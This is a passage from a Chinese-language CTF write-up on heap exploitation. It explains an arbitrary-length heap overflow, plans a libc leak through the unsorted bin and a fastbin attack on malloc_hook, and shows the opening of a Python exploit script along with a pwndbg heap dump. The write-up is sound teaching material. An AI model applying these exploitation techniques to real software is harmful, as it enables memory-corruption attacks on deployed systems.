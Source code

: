 ```c
  return result;
}
```

dump 就是输出对应索引 chunk 的内容。

### 利用思路

可以确定的是，我们主要有的漏洞就是任意长度堆溢出。由于该程序几乎所有保护都开启了，所以我们必须要有一些泄漏才可以控制程序的流程。基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址。
- 利用 fastbin attack 将chunk 分配到 malloc_hook 附近。

#### 泄漏 libc 基地址

由于我们是希望使用 unsorted bin 来泄漏 libc 基地址，所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能使 fastbin chunk，也不能和 top chunk 相邻。因为前者会被添加到 fastbin 中，后者在不是fastbin 的情况下，会被合并到 top chunk 中。因此，我们这里构造一个 small bin chunk。在将该 chunk 释放到 unsorted bin 的同时，也需要让另外一个正在使用的 chunk 可以同时指向该 chunk 的位置。这样才可以进行泄漏。具体设计如下

```Python
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
```

首先，我们申请了 5 个chunk，并释放了两个chunk，此时堆的情况如下。

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021 idx 0
0x55a03ca22010:	0x0000000000000000	0x0000000000000000
0x55a03ca22020:	0x0000000000000000	0x0000000000000021 idx 1
0x55a03ca22030:	0x000055a03ca22040	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021 idx 2
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021 idx 3
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091 idx 4
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

```
